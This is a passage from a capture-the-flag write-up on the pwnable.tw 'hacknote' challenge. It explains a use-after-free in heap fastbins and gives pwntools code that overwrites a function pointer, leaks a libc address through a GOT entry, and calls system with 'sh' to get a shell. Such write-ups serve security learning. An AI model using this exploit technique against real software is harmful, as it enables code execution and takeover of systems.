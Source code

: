 The size 16 fastbins came from malloc(8) which are the puts_function + note_content space

The size 24 fastbins came from the malloc(16) which are the contents for notes 0 and 1

Next add a note with size 8.

![image12.png](/images/pwnabletw-hacknote/image12.png)

The new allocated space for new note content uses `note 1`'s puts_function + note_content space. This causes the print note function to `note 1` results in calling `ZZZZ`.

![image13.png](/images/pwnabletw-hacknote/image13.png)

# Exploitation Phase

## Leaking Libc Base Address

Now that calling the Print Note function will basically call `puts` and the address after it will be the argument, we can make the program print out Libc addresses.

From previous section, we can weaponize the technique and put in `puts_function` address and any libc function GOT as argument.

```python
# allocate 1 note with size 8, now the puts pointer for note 1 will be allocated for our content
puts_function = 0x0804862b
addnote(b'8', p32(0x0804862b) + p32(elf.got['printf']))

# print the leaked libc

printnote(b'1')
leak = unpack(io.recv(4))
info(f'Leaked: {hex(leak)}')
libc.address = leak - libc.sym['printf']
info(f'Libc Base: {hex(libc.address)}')
system = libc.sym['system']
info(f'System: {hex(system)}')
```

![image14.png](/images/pwnabletw-hacknote/image14.png)
## Calling System

After obtaining the libc base address, now we can give the system address for `print note` function to call and set `sh` string as argument.

```python
delnote(b'2')
addnote(b'8', p32(system)+b';sh;')
printnote(b'1')
```

![image15.png](/images/pwnabletw-hacknote/image15.png)

Now we managed to solve the challenge! Thanks for reading.
